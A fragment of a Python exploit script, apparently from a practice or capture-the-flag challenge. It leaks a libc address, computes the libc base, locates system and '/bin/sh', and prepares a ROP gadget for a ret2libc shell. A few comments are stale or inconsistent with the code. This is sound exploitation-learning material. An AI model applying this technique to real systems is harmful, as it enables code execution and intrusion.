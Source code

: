 ```python

log.info(f"{hex(leak)=}") # get the leaked address

"""
Plan to calculate the offset (getting the difference between the leaked address and the system address)
between scanf (function we leaked) and system (function we want to call )

`readelf -s ./libc.so.6 | grep scanf` (print the address of scanf)
2062: 000000000007b0b0   197 FUNC    GLOBAL DEFAULT   13 scanf@@GLIBC_2.2.5
"""
# scanf_offset = 0x7b0b0

"""
we changed the function from scanf to puts
`readelf -s ./libc.so.6 | grep puts` (print the address of puts)
422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
"""
# puts_offset = 0x80a30

"""
we changed from puts to setbuf
`readelf -s ./libc.so.6 | grep setbuf` (prints the address of setbuf)
2185: 0000000000088540    10 FUNC    GLOBAL DEFAULT   13 setbuf@@GLIBC_2.2.5
"""
setbuf_offset = 0x88540

# Now we take our leaked address and subtract 0x7b0b0, and then we find the actual loaded address of libc
base_address_of_libc = leak - setbuf_offset

log.info(f"{hex(base_address_of_libc)=}") # check if everything is right in our ROPchain, we could see that it isn't leaking right

"""
calcule the address of function system

`readelf -s ./libc.so.6 | grep system`
1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
"""
system_offset = 0x4f4e0
system_address = base_address_of_libc + system_offset # get the actual physical in memory address of system

"""
check if /bin/sh is in libc.so.6
`strings libc.so.6 | grep /bin/sh`, check there is
"""

"""
open libc.so.6 in ghidra (don't scan it)
search memory (press s), change Format from hex to string and search for /bin/sh
002b40fa
"""
bin_sh_offset = 0x1b40fa # it was 0x2b40fa, +100000 because of ghidra had a base address of 0x100000 (thats why its +100000)
bin_sh_address = base_address_of_libc + bin_sh_offset

ret_instruction = 0x40052e # `ROPgadget --binary vuln | grep -i ": ret"` (searching for ret intructions)

# second ROPchain (payload), now that its waiting to receive input

```